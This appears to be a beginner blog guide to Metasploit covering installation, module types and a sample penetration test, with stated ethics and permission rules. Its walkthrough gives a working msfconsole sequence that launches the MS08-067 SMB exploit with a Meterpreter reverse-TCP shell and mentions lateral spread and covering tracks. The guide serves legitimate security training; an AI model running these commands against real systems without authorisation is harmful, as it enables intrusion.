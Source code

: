 ```yaml
---
layout: post
title: Basic Guide to Metasploit
date: 2024-03-19
categories: ["guide", "metasploit"]
og_title: "Metasploit Essentials: A Guide to Ethical Penetration Testing"
og_description: "Master the fundamentals of cybersecurity testing with this in-depth Metasploit guide. Learn ethical hacking techniques, vulnerability assessment, and responsible security exploration."
---
```

Metasploit is a powerful tool for conducting security assessments and penetration testing. It provides a robust framework for developing and executing exploit code against remote target machines. Moreover, Metasploit is equipped with a vast array of tools that can assist in the exploitation of vulnerabilities and the post-exploitation analysis of systems. This guide aims to provide a comprehensive overview of Metasploit, its core functionalities, and practical applications in ethical hacking contexts.

## Understanding Metasploit

Metasploit is more than just a single tool; it's a complete framework that allows ethical hackers to find, exploit, and validate vulnerabilities. It contains a suite of tools used for tasks ranging from reconnaissance to maintaining access to compromised systems. It's widely used by security professionals and ethical hackers to test the security of systems and applications.

### Key Components of Metasploit

- **msfconsole:** The primary interface to the Metasploit Framework. It provides an all-encompassing environment for launching exploits and managing an engagement.
- **Meterpreter:** A powerful payload that provides a command line interface to interact with a compromised system.
- **Modules:** Metasploit is modular by design, offering various modules like exploits, payloads, post-exploitation modules, and auxiliary modules for different tasks.

## Getting Started with Metasploit

### Installation

Metasploit comes pre-installed on security-focused distributions like Kali Linux. However, it can be installed on most Unix-like operating systems, including Windows under WSL (Windows Subsystem for Linux).

#### On Kali Linux

Metasploit is included out of the box in Kali Linux. Ensure it's up to date using the following commands:

```bash
sudo apt-get update
sudo apt-get upgrade
```

#### On Ubuntu/Debian

For other Linux distributions, you can install Metasploit by first adding its repository and then installing it through the package manager:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall
```

### Basic Usage

To start Metasploit, open your terminal and run:

```bash
msfconsole
```

This command launches the Metasploit console, an interactive shell from which you can execute commands, exploit vulnerabilities, and manage sessions.

## Exploring Metasploit Modules

Metasploit is known for its modular approach, allowing users to pick and choose components as needed. Modules are categorized into several types:

- **Exploits:** Code that takes advantage of a vulnerability in a system or application.
- **Payloads:** Code that runs on a system after an exploit successfully executes. Meterpreter is one of the most sophisticated payloads.
- **Auxiliary:** Additional tools and utilities for reconnaissance, scanning, and fuzzing.
- **Post:** Modules that are used after a successful compromise has been achieved, for actions like privilege escalation, gathering evidence, or covering tracks.

## Conducting a Penetration Test with Metasploit

### Step 1: Reconnaissance

Before exploiting vulnerabilities, you need to know what you're dealing with. Metasploit's auxiliary modules can scan networks and systems to discover open ports, services, and potential vulnerabilities.

Example command to scan a target IP for open ports:

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.105
run
```

### Step 2: Choosing and Configuring an Exploit

After identifying potential vulnerabilities, select an appropriate exploit module and configure it with the target's information.

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.105
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your Local IP>
exploit
```

### Step 3: Gaining Access

Executing the exploit, if successful, will grant you access to the target system. For example, if using Meterpreter as a payload, you will have a wide range of commands at your disposal for interacting with the system.

### Step 4: Post-Exploitation

With access to the target system, you can now execute post-exploitation modules to gather more information, escalate privileges, or spread to other accessible systems on the network.

## Best Practices and Ethical Considerations

- **Permission:** Never use Metasploit on systems or networks without explicit, written permission from the rightful owner.
- **Ethics:** Use Metasploit ethically and responsibly. The goal of ethical hacking is to improve security, not to cause harm or breach confidentiality.
- **Continuous Learning:** The cybersecurity field is always evolving. Stay informed about new vulnerabilities, exploits, and defensive techniques.

## Conclusion

Metasploit is an indispensable tool in the arsenal of any security professional. Its power and flexibility in assessing the security posture of systems make it the go-to framework for penetration testers and ethical hackers. This guide has provided a primer to get started with Metasploit, from installation to conducting a basic penetration test. However, the true depth and capabilities of Metasploit can only be appreciated with continuous learning and hands-on practice. Always remember to hack ethically and with permission, using your skills to contribute to the security and safety of the digital world.
